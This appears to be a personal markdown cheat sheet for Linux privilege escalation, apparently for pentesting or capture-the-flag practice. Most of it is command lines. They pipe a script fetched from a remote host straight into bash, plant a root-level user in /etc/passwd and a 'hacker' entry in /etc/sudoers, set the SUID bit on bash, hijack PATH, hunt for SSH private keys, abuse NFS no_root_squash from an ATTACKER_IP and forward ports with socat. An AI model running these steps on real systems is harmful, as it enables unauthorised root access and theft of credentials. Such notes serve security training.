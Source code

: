 # Privesc

## LinEnum

```
python -m SimpleHTTPServer 8000
```

```
curl IP:8000/linenum.sh | bash
```

Add -t for a thorough check

## Linux priv checker

## linux-smart-enumeration

Unlike LinEnum, lse tries to gradualy expose the information depending on its importance from a privesc point of view.

https://github.com/diego-treitos/linux-smart-enumeration

## Useful commands

Obtain the kernel version

```
uname -a
```

Check for misconfigurations in permissions

```
whoami

id

sudo -l

history
```

Find processes running as root

```
ps -ef | grep root
```

Process log files

```
cat file | awk '{print 7}' | sort | uniq -c
```

### Network enumeration

Find network cards, routes and reachable networks

```bash
ip addr
ip route
ip neigh
```

See running ports

```
netstat -tunlp

netstat -ano
```

### Add sudo password hash
A user with password toor

```
$ openssl passwd -1 -salt salt password

echo 'user1:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/hack
append /tmp/hack to /etc/passwd
```

### Add user to sudoers

```
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

### SUID bit add to /bin/bash

```bash
echo "chmod 4777 /bin/bash" >> backup.sh

as root

cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

## Finding SUID bits

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
```

## Finding writable dirs

```
find /-writable -type d 2>/dev/null
```

## Find file

```bash
find / -name id_rsa 2>/dev/null
```

## TCP Dump

```
cd /tmp
tcpdump -D
tcpdump -w file.pcap -i lo
```

## PSPY32

pspy32 script which is a little command-line script which basically monitors scheduled Linux processes

```
cd /tmp
upload /pspy32
python -c 'import pty;pty.spawn("/bin/bash")'
chmod 777 pspy32
./pspy32
```

## PATH variable exploitation

```
cd /tmp

echo "/bin/bash" > ps
chmod 777 ps

or 

cp /bin/sh /tmp/ps

echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

## Capabilities

```
getcap -r / 2>/dev/null
```

## NFS Root Squashing

```
cat /etc/exports

check for no_root_squash

On the attacker machine
mount -o rw, vers=2 ATTACKER_IP:/tmp /mount/attacker

```

## Port Forwarding

`ss -tulpn` it will tell us what socket connections are running

To forward a port

```
ssh -L 10000:localhost:10000 <username>@<ip>
```

### Meterpreter

```
portfwd add -l 22 -p 22 -r 127.0.0.1
```

-l is our local port we want to use.
-p is the remote port we want to get access to.
-r is the remote address

### socat binary

```
/tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

[Getting Started with Socat](https://www.redhat.com/sysadmin/getting-started-socat)

## Further Links
[linuxprivchecker.py -- a Linux Privilege Escalation Check Script](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

[ A guide to Linux Privilege Escalation](https://payatu.com/guide-linux-privilege-escalation)
